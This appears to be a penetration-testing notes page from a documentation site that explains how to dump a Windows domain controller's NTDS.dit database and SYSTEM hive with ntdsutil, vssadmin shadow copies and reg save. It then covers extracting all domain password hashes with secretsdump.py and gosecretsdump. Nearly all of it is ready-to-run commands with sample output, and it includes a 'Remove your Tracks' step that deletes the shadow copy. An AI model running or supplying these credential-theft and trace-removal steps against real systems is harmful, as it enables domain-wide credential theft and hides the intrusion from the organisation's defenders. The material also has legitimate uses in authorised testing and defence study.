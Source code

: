 ```yaml
---
title : "NTDS.dit Dump & Extract"
# pre : ' '
description : "How to dump NTDS.dit and extract the hashes with ShadowCopy and Secretsdump."
date : 2022-01-18T10:07:23+01:00
# hidden : true
# draft : true
weight : 50
# tags : ['']
---
```


---

On Domain Controller - create snapshot with `vssadmin.exe`.

## NTDSUtil

```plain
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

```plain
C:\Windows\Temp\NTDS\Active Directory\ntds.dit
C:\Windows\Temp\NTDS\registry\SYSTEM
```

## Shadowcopy

### Step 1 - Create ShadowCopy

```plain
PS C:\> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
```

### Step 2 - Copy NTDS.dit and SYSTEM from ShadowCopy

NTDS:

```plain
PS C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\windows\ntds\ntds.dit c:\ntds.dit
```

SYSTEM:

```plain
PS C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\Windows\system32\config\system c:\system
```

Or use `reg save`

```plain
reg SAVE HKLM\SYSTEM c:\SYSTEM
```

You can also use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html) if you prefer a GUI.

{{%resources fa_icon_class="far fa-file-archive" pattern=".*(zip)"/%}}

### Step 3 - Remove your Tracks

```plain
PS C:\> vssadmin delete shadows /shadow={3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
```

## Extract hashes

It can happen that [secretsdump.py]({{< ref"secretsdump-py" >}}) keeps looping and throwing out hashes. In this case, or maybe even preferably, use [Gosecretsdump]({{< ref "gosecretsdump" >}}).

### Secretsdump.py

```plain
secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

### Gosecretsdump

```plain
./gosecretsdump -system SYSTEM -ntds NTDS.DIT -history -status -out hashes.log
```

### Example NTDS/SYSTEM

Example `NTDS.dit` and `SYSTEM` files zipped below.

{{%resources fa_icon_class="far fa-file" pattern=".*(NTDS.DIT-SYSTEM)"/%}}

## URL List

- [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
- [Thehacker.recipes - Dumping NTDS](https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds)
